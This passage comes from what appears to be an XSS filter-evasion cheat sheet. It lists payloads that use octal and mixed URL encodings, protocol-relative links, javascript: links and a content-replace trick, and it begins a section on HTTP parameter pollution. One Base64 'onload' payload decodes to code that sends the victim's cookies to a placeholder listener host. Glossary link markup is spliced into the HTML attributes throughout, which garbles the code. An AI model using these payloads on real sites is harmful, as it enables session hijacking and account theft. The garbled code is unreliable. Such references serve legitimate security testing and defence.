 ##### Octal Encoding¶
Again padding is allowed, although you must keep it above 4 total characters per class - as in class A, class B, etc:
<A [[_content/dictionary#H|HREF]]="http://0102.0146.0007.00000223/">[[_content/dictionary#X|XSS]]</A>

##### Base64 Encoding¶
<img onload="eval(atob('ZG9jdW1lbnQubG9jYXRpb249Imh0dHA6Ly9saXN0ZXJuSVAvIitkb2N1bWVudC5jb29raWU='))">

##### Mixed Encoding¶
Let's mix and match base encoding and throw in some tabs and newlines (why browsers allow this, I'll never know). The tabs and newlines only work if this is encapsulated with quotes:

<A [[_content/dictionary#H|HREF]]="h
tt  p://6   6.000146.0x7.147/">[[_content/dictionary#X|XSS]]</A>

##### Protocol Resolution Bypass¶
// translates to http://, which saves a few more bytes. This is really handy when space is an issue too (two less characters can go a long way) and can easily bypass regex like (ht|f)tp(s)?:// (thanks to Ozh for part of this one). You can also change the // to \\\\. You do need to keep the slashes in place, however, otherwise this will be interpreted as a relative path [[_content/dictionary#U|URL]]:
<A [[_content/dictionary#H|HREF]]="//www.google.com/">[[_content/dictionary#X|XSS]]</A>

##### Removing CNAMEs¶
When combined with the above [[_content/dictionary#U|URL]], removing www. will save an additional 4 bytes for a total byte savings of 9 for servers that have set this up properly:
<A [[_content/dictionary#H|HREF]]="http://google.com/">[[_content/dictionary#X|XSS]]</A>

Extra dot for absolute [[_content/dictionary#D|DNS]]:
<A [[_content/dictionary#H|HREF]]="http://www.google.com./">[[_content/dictionary#X|XSS]]</A>

##### [[_content/dictionary#J|JavaScript]] Link Location¶
<A [[_content/dictionary#H|HREF]]="javascript:document.location='http://www.google.com/'">[[_content/dictionary#X|XSS]]</A>

##### Content Replace as Attack Vector¶

Assuming http://www.google.com/ is programmatically replaced with nothing. A similar attack vector has been used against several separate real world [[_content/dictionary#X|XSS]] filters by using the conversion filter itself (here is an example) to help create the attack vector java&\#x09;script: was converted into java    script:, which renders in IE:

<A [[_content/dictionary#H|HREF]]="http://www.google.com/ogle.com/">[[_content/dictionary#X|XSS]]</A>

#### Assisting [[_content/dictionary#X|XSS]] with [[_content/dictionary#H|HTTP]] Parameter Pollution¶
If a content sharing flow on a web site is implemented as shown below, this attack will work. There is a Content page which includes some content provided by users and this page also includes a link to Share page which enables a user choose their favorite social sharing platform to share it on. Developers [[_content/dictionary#H|HTML]] encoded the title parameter in the Content page to prevent against XSS but for some reasons they didn't [[_content/dictionary#U|URL]] encoded this parameter to prevent from HTTP Parameter Pollution. Finally they decide that since content_type's value is a constant and will always be integer, they didn't encode or validate the content_type in the Share page.
##### Content Page Source Code¶
a href="/Share?content_type=1&title=<%=Encode.forHtmlAttribute(untrusted content title)%>">Share</a>
